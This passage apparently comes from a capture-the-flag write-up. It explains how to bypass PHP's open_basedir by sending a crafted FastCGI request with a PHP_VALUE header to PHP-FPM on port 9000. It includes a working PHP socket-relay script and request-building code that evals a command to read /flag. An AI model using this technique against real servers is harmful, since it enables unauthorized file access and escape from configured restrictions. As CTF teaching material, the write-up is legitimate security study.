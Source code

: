 PHP-FPM treats the `PHP_VALUE` FastCGI headers as the same as defining it within a `php.ini` file. Normally, this wouldn't 
be an issue as the attacker has no way of controlling FastCGI headers since those are set by the webserver (in this case Apache).
However, since we can execute arbitrary PHP on the server, we can just create a socket connection on port 9000 ourselves
and send a FastCGI request with a `PHP_VALUE` header that overwrites the `open_basedir` configuration value.

I wrote the following PHP script that opens a TCP socket to localhost on port 9000 and writes the raw POST body of the 
request, and echos back the response it gets:
```php
<?php

$fp = fsockopen("127.0.0.1", 9000, $errno, $errstr, 30);

if (!$fp) {
    echo "$errstr ($errno)<br />\n";
}

fwrite($fp, file_get_contents('php://input'));

while (!feof($fp)) {
    echo fgets($fp, 128);
}
fclose($fp);
```

# Putting it All Together

I used [`PHP-FastCGI-Client`](https://github.com/adoy/PHP-FastCGI-Client) to generate the raw request locally. I captured
the binary FastCGI request of running the following script:

```php
<?php
require 'vendor/autoload.php';

use Adoy\FastCGI\Client;

$client = new Client('localhost', '9000');
$content = '<?php echo 123; ?>';
echo $client->request(
	array(
		'GATEWAY_INTERFACE' => 'FastCGI/1.0',
		'REQUEST_METHOD' => 'POST',
		'SCRIPT_FILENAME' => '/tmp/uploads/dicedicedice.php',
		'SERVER_SOFTWARE' => 'php/fcgiclient',
		'REMOTE_ADDR' => '127.0.0.1',
		'REMOTE_PORT' => '9985',
		'SERVER_ADDR' => '127.0.0.1',
		'SERVER_PORT' => '80',
		'SERVER_NAME' => 'mag-tured',
		'QUERY_STRING' => 'real_eval=echo%20file_get_contents%28%27%2Fflag%27%29%3B',
		'SERVER_PROTOCOL' => 'HTTP/1.1',
		'CONTENT_TYPE' => 'application/x-www-form-urlencoded',
		'PHP_VALUE' => 'open_basedir = /',
		'CONTENT_LENGTH' => strlen($content)
	),
	$content
);
```
